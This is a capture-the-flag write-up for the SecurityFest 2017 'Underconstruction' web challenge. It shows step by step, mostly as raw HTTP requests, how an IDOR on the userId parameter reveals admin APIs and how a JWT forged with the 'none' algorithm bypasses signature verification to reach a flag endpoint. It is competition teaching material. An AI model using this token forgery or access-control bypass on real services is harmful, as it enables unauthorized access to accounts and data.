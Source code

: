 ```yaml
---
layout: post
title: "SecurityFest 2017 - Underconstruction"
date:   2017-06-01 21:05
categories: [SecurityFest2017]
tags: [Web]
author: jbz
---
```


Under Construction! Please protect your head, wear a hardhat.

Service: http://web.ctf.rocks:8080

Author: Kits / weckzen

In the HTML source of the index there is a comment saying that the backend allows you to connect by posting `{"username": "user", "password":"password"}` to `/login`.

```
POST /login HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 43

{"username": "user", "password":"password"}
```

In the response you get an `Athorization Bearer` token and the link `/apis` where you can list your available APIs.

*As Java errors are enabled and displayed you can manage to understand which parameters are missing while invoking APIs.*

We request our APIS:

```
GET /apis?userId=52 HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5OTExMn0.lRlvydjfWCMlavdcqvb6qth4Mp0zyFo3Zs50ngIZ1Jk
```

And we get:

```
{"urls":["/login","/apis"],"id":52,"user":"user"}
```
Then we request the admin's APIs:

```
GET /apis?userId=0 HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5OTExMn0.lRlvydjfWCMlavdcqvb6qth4Mp0zyFo3Zs50ngIZ1Jk
```

And we get:

```
{"urls":["/login","/apis","/supersecretflagresource"],"id":0,"user":"admin"}
```

Ok we have the flag endpoint, but if we try to GET it we receive a 403.

```
GET /supersecretflagresource HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTQ5NzA5OTQ0OX0.O1BEqBvnt44Q6CIlWJK2hIzg8Ja9ycyOnIGc1Z-Zxzo
```

By analizing the token, we can see that is a JWT with HS256.

```
{
    "alg": "HS256"
}
{
    "user": "user",
    "exp": 1497099449
}
```

In some `JWT` libraries there is a vulnerability that allows to set `none` as algorithm and bypass the signature verification. This is the case.
You hust need to create a JWT token with `"alg":"none"` and `"user":"admin"` and perform the GET again.

```
GET /supersecretflagresource HTTP/1.1
Host: web.ctf.rocks:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Authorization: Bearer eyJhbGciOiJub25lIn0_.eyJ1c2VyIjoiYWRtaW4iLCJleHAiOjE0OTcwOTk0NDl9.
``` 
And the result is:

```
{"message":"You are close now","script":"function getFlag() {   var text = $('.c-intro').innerText;   return 'SCTF{' + text.slice(35,38) + text.slice(0,10) + '}';}","url":"https://kits.se?kokitotsos"}
```    
Finally you need to browse to `https://kits.se?kokitotsos` and execute the returned Javascript to get the flag.

**SCTF{lolKOKITOTSOS}**
